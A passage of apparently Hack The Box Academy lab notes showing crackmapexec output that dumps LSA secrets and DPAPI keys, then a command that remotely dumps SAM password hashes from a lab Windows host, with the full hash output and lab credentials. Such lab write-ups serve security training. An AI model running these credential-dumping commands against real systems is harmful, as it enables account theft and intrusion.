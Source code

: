 ```
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```
### Dumping SAM Remotely
```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```
